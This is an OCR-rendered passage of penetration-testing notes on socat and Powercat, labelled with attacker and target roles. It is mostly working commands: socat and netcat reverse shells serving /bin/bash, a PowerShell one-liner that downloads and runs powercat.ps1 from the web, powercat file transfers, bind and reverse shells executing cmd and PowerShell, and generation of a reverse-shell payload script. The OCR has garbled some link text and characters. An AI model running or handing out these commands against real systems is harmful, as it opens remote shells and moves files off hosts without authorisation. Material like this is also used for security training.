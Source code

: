             -   ( ==cert =\[certificate\] -\> add our certificate )

        -   make a certificate with openssl

    -   **Reverse shell**

        -   socat -d -d -d -TCP4:192.168.1.6:4444 EXEC:/bin/bash 

            -    ( ==nc -nv 192.168.1.6 4444 -e /bin/bash)

        -    socat -d -d -d TCP4-LISTEN:4444   

            -   ( == nc -nlvp 4444 )

-  <h2 align="center"> **Powercat (**like Netcat: The PowerShell version.**)** </h2>

    -   **Download powercat**

        -   Download powercat :    IEX (New-Object
            [System.Net.Webclient).DownloadString(\'https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1](https://medium.com/@SumitVerma101/System.Net.Webclient%29.DownloadString%28%27https:/raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1)\')

    -   **Chat with powercat**

        -   powercat -c \<ip\> -p 8080

        -   powercat -l -p 8000 \| nc -nlvp 8080   

    -   **File Transfer**

        -   powercat -l -p \[port\] -of \[path-to-file\]

            -   powercat -l -p 9000 -of C:\\received.txt --v (** **nc -nlvp  9000 \> reveive.txt )

	        - -\>transfer file to windows  -o =output file

        -   powercat -c \[server\] -p -i \[path-to-file\] -d   -\>  -d=disconnect after downloading

        -   powercat -c 192.168.1.6 -p 7000 -i C:\\send.txt -d (nc [ip] 7000 \< send.txt )
	

    -   **Bind shell**

        -   powercat -c 192.168.1.16 -p 9000 --v  -\> attacker 

        -   powercat -l -p 9000 -e cmd -v        -\> execute cmd commands -\> target

        -   powercat -l -p 443 -ep                -\> execute PowerShell commands -\> target

    -   **Reverse shell**

        -   powercat -c 192.168.2.79 443 -e cmd -\> Target

        -   powercat -l -p 443 --v (nc --nlvp 443) -\> attacker

    -   **Custom payloads**

        -   **Reverse shell**

            -   powercat -c \[server\] --p \[port\] -e cmd -g \> reverse.ps1

		        >Ex: powercat -c 10.1.1.15 -p 443 -e cmd --g

            -   c:\\\> PowerShell -executionpolicy remotesigned -file reverse.ps1
